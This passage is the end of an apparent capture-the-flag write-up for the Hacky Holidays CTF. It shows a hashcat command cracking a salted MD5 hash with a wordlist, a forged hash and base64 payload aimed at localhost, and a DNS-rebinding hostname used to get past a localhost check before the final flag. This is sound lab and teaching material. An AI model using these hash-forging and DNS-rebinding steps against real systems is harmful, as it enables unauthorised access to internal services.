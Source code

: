 So we have the hashes and know that the IPs must be a part of it, so we can use `-m 10` with hashcat to crack it:  
```
hashcat -m 10 -a 0 hash.txt rockyou.txt
```  
{F1138020}  
The salt is `mrgrinch463`. So now we can use the salt to create our own md5 hashes like `md5(mrgrinch463127.0.0.1)` to make a valid hash for the local host. The we update the payload like `{"target":"127.0.0.1","hash":"3e3f8df1658372edf0214e202acb460b"}` if we encode it as bas64 we get a new payload like: [https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFj
YjQ2MGIifQo=](https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiIxMjcuMC4wLjEiLCJoYXNoIjoiM2UzZjhkZjE2NTgzNzJlZGYwMjE0ZTIwMmFj
YjQ2MGIifQo=)  
{F1138042}  
But the attack is aborted as the localhost is detected. So the Grincharmy came up with a solution DNS-Rebinding.
If you craft a link DNS-Rebind link to the localhost like: `make-1-2-3-4-and-127.0.0.1-rr.1u.ms` and do the whole process of md5 hash and adjusting payload for it again you will end up with the following link: [https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiJtYWtlLTEtMi0zLTQtYW5kLTEyNy4wLjAuMS1yci4xdS5tcyIsImhhc2giOiJm
ZGU5M2NlZmI5MGU1NDVjYjY1ODVhNDdiNTkzNDY2YiJ9Cg==](https://hackyholidays.h1ctf.com/attack-box/launch?payload=eyJ0YXJnZXQiOiJtYWtlLTEtMi0zLTQtYW5kLTEyNy4wLjAuMS1yci4xdS5tcyIsImhhc2giOiJm
ZGU5M2NlZmI5MGU1NDVjYjY1ODVhNDdiNTkzNDY2YiJ9Cg==)  
Launch  the attack two times:  
{F1138057}  
It's attack the localhost and after a short period of time, you will be redirected to:  
{F1138059}  
`flag{ba6586b0-e482-41e6-9a68-caf9941b48a0}`  
It's done the Grinch-Networks is destroyed and the CTF is completed!!  
Thanks to the Grincharmy and thanks to Adam Langley and everybody involved in the CTF, was real fun!  

Best Regards  
Max  
(A close friend of the Grinch )

## Impact

An Attacker is able to use multiple attacks and vulnerabilities to take the Grinch-Networks offline.

## Attachments
- day2.png
- day2.2.png
- day3.1.png
- day3.2.png
- day3.2.png
- day3.3.png
- day4.1.png
- day4.2.png
- day4.3.png
- day4.4.png
- day4.5.png
- day5.1.png
- day5.2.png
- day5.3.png
- day5.4.png
- day5.5.png
- xxx.png
- day6.1.png
- day6.2.png
- day6.3.png
- day7.1.png